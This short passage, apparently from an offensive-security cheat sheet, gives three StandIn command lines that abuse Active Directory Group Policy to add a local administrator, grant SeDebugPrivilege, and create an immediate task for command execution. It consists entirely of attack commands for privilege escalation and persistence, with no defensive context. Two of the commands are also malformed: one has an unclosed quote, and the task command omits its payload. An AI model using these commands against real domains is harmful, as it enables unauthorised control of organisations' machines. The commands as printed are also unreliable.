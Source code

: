 ## StandIn https://github.com/FuzzySecurity/StandIn

#### 1) Add a local administrator

    StandIn.exe --gpo --filter Shards --localadmin user002

#### 2) Set custom right to a user

    StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege

#### 3) Execute custom command

    StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK"
